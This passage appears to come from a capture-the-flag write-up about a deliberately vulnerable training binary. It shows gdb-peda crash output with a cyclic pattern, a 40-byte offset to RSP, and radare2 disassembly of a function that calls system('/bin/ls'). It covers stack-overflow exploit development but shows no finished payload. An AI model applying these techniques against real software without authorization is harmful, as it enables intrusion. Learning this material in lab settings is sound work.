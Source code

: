 ```text
0016| 0x7fffffffdd68 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgA")
0024| 0x7fffffffdd70 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgA")
0032| 0x7fffffffdd78 ("IAAeAA4AAJAAfAA5AAKAAgA")
0040| 0x7fffffffdd80 ("AJAAfAA5AAKAAgA")
0048| 0x7fffffffdd88 --> 0x416741414b4141 ('AAKAAgA')
0056| 0x7fffffffdd90 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400806 in pwnme ()
gdb-peda$ pattern_search
Registers contain pattern buffer:
RBP+0 found at offset: 32
Registers point to pattern buffer:
[RAX] --> offset 0 - size ~95
[RDX] --> offset 0 - size ~95
[RDI] --> offset 1 - size ~94
[RSP] --> offset 40 - size ~55
Pattern buffer found at:
0x00602260 : offset    0 - size  100 ([heap])
0x00007fffffffdd30 : offset    0 - size   95 ($sp + -0x28 [-10 dwords])
References to pattern buffer found at:
0x00007ffff7f90878 : 0x00602260 (/usr/lib/libc-2.28.so)
0x00007ffff7f90880 : 0x00602260 (/usr/lib/libc-2.28.so)
0x00007ffff7f90888 : 0x00602260 (/usr/lib/libc-2.28.so)
0x00007ffff7f90890 : 0x00602260 (/usr/lib/libc-2.28.so)
0x00007ffff7f90898 : 0x00602260 (/usr/lib/libc-2.28.so)
0x00007fffffffb120 : 0x00007fffffffdd30 ($sp + -0x2c38 [-2830 dwords])
0x00007fffffffd980 : 0x00007fffffffdd30 ($sp + -0x3d8 [-246 dwords])
0x00007fffffffd9a0 : 0x00007fffffffdd30 ($sp + -0x3b8 [-238 dwords])
0x00007fffffffdca0 : 0x00007fffffffdd30 ($sp + -0xb8 [-46 dwords])
0x00007fffffffdcb8 : 0x00007fffffffdd30 ($sp + -0xa0 [-40 dwords])
0x00007fffffffdce8 : 0x00007fffffffdd30 ($sp + -0x70 [-28 dwords])
```

Here we can see that it takes `40` bytes to overfill `RSP` register, and here we can use technique from the previous challenge to call another function. Probably `usefulFunction`?

Let's hop back to `radare2` once again, and analyze this part of binary.

```text
[0x00400650]> pdf @sym.usefulFunction
/ (fcn) sym.usefulFunction 17
|   sym.usefulFunction ();
|           0x00400807      55             push rbp
|           0x00400808      4889e5         mov rbp, rsp
|           0x0040080b      bfff084000     mov edi, str.bin_ls         ; 0x4008ff ; "/bin/ls"
|           0x00400810      e8cbfdffff     call sym.imp.system         ; int system(const char *string)
|           0x00400815      90             nop
|           0x00400816      5d             pop rbp
\           0x00400817      c3             ret
```
